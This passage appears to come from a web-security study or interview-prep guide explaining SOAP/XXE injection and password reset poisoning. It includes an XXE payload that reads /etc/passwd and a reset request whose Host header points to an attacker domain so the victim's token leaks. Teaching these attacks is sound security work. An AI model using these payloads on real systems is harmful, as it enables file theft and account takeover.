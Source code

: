 
#### 2) SOAP injection

SOAP is a web communicating protocol, that was designed specially for Microsoft. Unlike REST API, which supports BOTH JSON & XML, SOAP supports only XML. 

The main thing for us is, that it uses XML and thus can be vulnerable to XXE. 

Suppose we have an application which would send SOAP message, if we could inject special characters, like <>, we can try to inject malicious XML code : 

```http
POST /soap HTTP/1.1 
Host: freeoscp.net
.........

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxehere SYSTEM "file:///etc/passwd">]>

<SOAP-ENV:Envelope> 
<SOAP-ENV:Body> 
<request> 
	<req>&xxehere;</req> 
</request> 
</SOAP-ENV:Body> 
</SOAP-ENV:Envelope>
```

This is a SOAP/XML injection, where we loaded `/etc/passwd` file.


## 34. Name some common password reset flow vulnerabilities.

#### 1) Password reset poisoning

This is a vulnerability, where we play with the `Host` header. Suppose we have an application that allows us to reset password, if we forget it.

```HTTP
POST /resetPassword HTTP/.1.1
Host: freeoscp.net
...
...

email=victim@hackerman.net
```
This is a normal request, where the `Host` header is untouched. Email will arrive to the victim's mailbox, asking them to reset the password - if they click the link, it will redirect them to `freeoscp.net/reset/?token=SECRETTOKENYES`. Now, what happens, if we manipulate the Host header? Let's try.


```HTTP
POST /resetPassword HTTP/.1.1
Host: attacker-domain.net
...
...

email=victim@hackerman.net
```
We manipulated the Host header via intercept proxy, like Burp or ZAP. You'd expect the website to just say "whatchu doin lol", but in some cases, it will actually forward the request like if nothing happened.
